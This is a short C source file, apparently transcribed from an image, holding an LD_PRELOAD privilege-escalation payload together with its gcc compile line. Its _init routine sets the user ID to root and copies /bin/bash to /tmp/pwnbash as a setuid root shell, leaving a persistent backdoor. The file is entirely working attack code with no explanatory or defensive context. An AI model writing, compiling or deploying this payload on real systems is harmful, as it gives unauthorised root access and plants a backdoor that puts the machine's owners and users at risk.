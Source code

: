 #include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setresuid(0,0,0);
system("cp /bin/bash /tmp/pwnbash; chown root /tmp/pwnbash; chmod +s /tmp/pwnbash");
}

//To compile
//gcc -fPIC -shared -nostartfiles -o preload1.so preload.c
